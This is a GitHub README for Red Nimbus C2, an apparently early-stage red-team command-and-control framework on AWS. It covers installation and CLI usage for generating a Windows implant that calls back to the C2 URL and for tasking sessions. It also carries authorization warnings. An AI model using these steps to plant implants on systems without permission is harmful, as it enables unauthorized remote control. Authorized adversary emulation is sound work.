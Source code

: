 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not expected to be stable or even usable at this time.

`[!] Do not use this tool until this notice is removed.`

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python](https://www.python.org)
3. [Go](https://go.dev)
4. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
5. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
6. [Make](https://www.gnu.org/software/make/)
7. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Build Red Nimbus C2 binaries and deploy infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

make
```

*Note: you can optionally deploy to a specific AWS account like so:*

```
make <your_aws_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.

3. **Install the local Red Nimbus C2 binaries**

```bash
sudo make install
```

4. **Confirm Red Nimbus C2 binaries are availble:**

```
nimbusc2 --help

nimbusc2-create-agent --help
```

:warning: *If the nimbusc2 binaries are not found, try terminating and restarting your terminal. Alternitively, execute the binaries using an absolute path:*

```bash
/usr/local/bin/nimbusc2 -h
```

:exclamation: To uninstall, execute:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
sudo make uninstall
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Generate C2 agent
2. Deploy agent to target
3. Issue commands using the Nimbus C2 operator client
4. Cleanup when finished

### 1. Generate C2 Agent

The Red Nimbus C2 agent is executed on target systems.

On execution, the agent calls back to the Red Nimbus C2 infrastructure and establishes a C2 session.

```bash
./nimbusc2-create-agent --format exe \
            --arch amd64 \
            --platform windows \
            --c2url https://aws-api-gateway-url \
            --proxy "http://userName:password123@127.0.0.1:1234" \
            --private-key "change_me_123!$" \
            --callback-schedule "cron_schedule" \
            --kill-date "date" \
            --implant-group myGroupName \
            --allow-target myIntendedTarget \
            --allow-user myTargetUser \
            --out-file nimbus_agent.exe \
            --verbose 
```

### 2. Deploy Agent to Target System(s)

You are responsible for deploying the Nimbus C2 agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

### Issue Commands

```bash
# issue singular tasking
./nimbusc2 set-task --session-id uuid --cmd supportedCmd --args yourArguments

# task multiple sessions
./nimbusc2 set-task --session-id uuid1,uuid2,uuid3 --cmd supportedCmd --args yourArguments

# task every session
./nimbusc2 set-task --session-id all --cmd supportedCmd --args yourArguments

# task implants in a group
./nimbusc2 set-task --session-group yourGroup --cmd supportedCmd --args yourArguments
```

### View Task Output

TBD

### Cleanup

You can task all implants to terminate and delete by issuing this command:

```
TBD
```
